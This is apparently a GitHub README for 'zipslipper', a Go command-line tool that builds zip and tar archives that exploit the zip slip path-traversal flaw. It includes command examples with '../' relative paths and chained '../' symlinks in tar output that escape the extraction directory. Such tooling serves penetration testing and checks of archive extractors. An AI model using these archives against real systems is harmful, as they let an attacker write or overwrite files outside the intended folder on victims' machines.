 # zipslipper
<a href="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml"><img src="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml/badge.svg" align="right" alt="golangci-lint"></a>
Create tar/zip archives that try to exploit zipslip vulnerability.

## Usage

Basic usage on cli:

```shell
% zipslipper -h
Usage: zipslipper <input> <relative-path> <output-file> [flags]

A utility to build tar/zip archives that performs a zipslip attack.

Arguments:
  <input>            Input file.
  <relative-path>    Relative extraction path.
  <output-file>      Output file.

Flags:
  -h, --help                  Show context-sensitive help.
  -t, --archive-type="zip"    Archive type. (tar, zip)
  -v, --verbose               Verbose logging.
  -V, --version               Print release version information.
```

## Usage example

### Zip

```shell
(main[2]) ~/git/zipslipper% zipslipper go.mod ../../foo/bar/go.mod test.zip
(main[2]) ~/git/zipslipper% unzip -l test.zip
Archive:  test.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  09-20-2024 11:01   sub/
        3  09-20-2024 11:01   sub/root
        3  09-20-2024 11:01   sub/root/outside
        3  09-20-2024 11:01   sub/root/outside/0
        3  09-20-2024 11:01   sub/root/outside/0/1
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/bar/
      103  09-20-2024 08:39   sub/root/outside/0/1/foo/bar/go.mod
---------                     -------
      115                     8 files
```

### Tar

```shell
(main[2]) ~/git/zipslipper% zipslipper -t tar go.mod ../../foo/bar/go.mod test.tar
(main[2]) ~/git/zipslipper% tar ztvf test.tar
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0 -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1 -> ../
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/bar/
-rw-r--r--  0 jan    staff     103 20 Sep 08:39 sub/root/outside/0/1/foo/bar/go.mod
```

## Install

You can use this library on the command line with the `zipslipper` command.

### Pre-build release

Download a pre-build release for your system architecture from the [release page](https://github.com/NodyHub/zipslipper/releases).

### Build via golang toolchain

```cli
go install github.com/NodyHub/zipslipper@latest
```

### Manual build and installation

```cli
git clone git@github.com:NodyHub/zipslipper.git
cd zipslipper
make
make install
```
